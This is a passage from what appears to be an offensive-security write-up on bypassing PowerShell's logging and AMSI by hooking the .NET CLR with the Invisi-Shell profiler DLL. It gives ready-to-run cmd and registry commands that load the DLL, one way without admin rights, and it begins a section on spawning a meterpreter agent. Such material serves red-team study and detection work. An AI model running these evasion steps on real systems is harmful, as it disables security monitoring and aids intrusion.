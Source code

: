 ### Hooking .NET Framework via CLR

Another powerful technique is based on hooking at runtime the .NET Framework via CLR Profiler API, as seen in [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) by Omer Yiar.
This project is able to bypass all the protection mechanisms of PowerShell, that are Script Block Log, Module Logging, Transcription and AMSI.

Using CLR Profiler APIs, `Invisi-Shell` is able to hook .NET assemblies [10] and disable any kind of protection mechanisms by always overwriting the input length attribute with `0`. As we saw above, if the input is empty, `AMSI_RESULT_NOT_DETECTED` will be returned and the same logic applies to every other security mechanisms.

The only downside of this techinique is that you have to drop a DLL on disk, in order to be loaded by the CLR Profiler APIs.

There are two ways of loading the DLL:

1. via ENV variables (**admin required**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell
```

2. via the Registry (**any user**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell
```

The PowerShell terminal that appears will have all the protection mechanisms disabled.
For more info regarding the internals, I forward you to his amazing [DerbyCon talk](https://www.youtube.com/watch?v=Y3oMEiySxcc). [9]
If you are interested in the detection side, I suggest to check out his other project [Babel-Shellfish](https://github.com/OmerYa/Babel-Shellfish). [15]

## Weaponization

Let's see how we can use this technique in order to spawn a meterpreter agent on the target machine.
We need to do two things in order to do that:

1. disable logging on disk
2. execute the AMSI bypass
